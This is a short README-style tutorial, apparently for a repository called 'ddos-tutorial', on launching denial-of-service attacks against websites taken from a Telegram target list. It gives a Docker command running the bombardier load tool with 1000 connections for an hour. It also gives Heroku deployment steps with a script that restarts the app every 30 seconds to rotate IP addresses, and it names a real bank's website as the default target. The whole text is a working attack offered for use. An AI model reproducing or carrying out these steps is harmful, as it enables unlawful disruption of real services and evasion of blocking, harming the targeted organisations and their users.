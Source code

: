 # Method 1. Local machine way
1. Install VPN if you're in Ukraine. I'm using (https://www.hotspotshield.com/);
2. Install docker https://docs.docker.com/get-docker/;
3. Choose one of the sites listed here: https://t.me/itarmyofukraine2022/5;
4. Run `docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l <your url>`;

# Method 2. Cloud way (with node.js example) (linux/mac)
1. Create account on https://www.heroku.com/
2. (Optional) Add billing information(no payment will happen!). This will give more free credits to your account
3. Create new application
4. Install heroku cli: https://devcenter.heroku.com/articles/heroku-cli#install-the-heroku-cli
5. Edit `reload.sh` file and insert your app name there.
6. Deploy there code from this repo:
```
$ heroku login
$ cd ddos-tutorial
$ heroku git:remote -a <<your-app-name>>
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
6. Run in terminal `sh reload.sh` - this script will reload heroku app each 30s, so you will get new IP address each 30 seconds.
7. In order to change destination, please change in the code (`index.js` file) `https://www.tinkoff.ru/` to any other destination and redeploy app: 
```
$ git add .
$ git commit -am "make it better"
$ git push heroku master
```
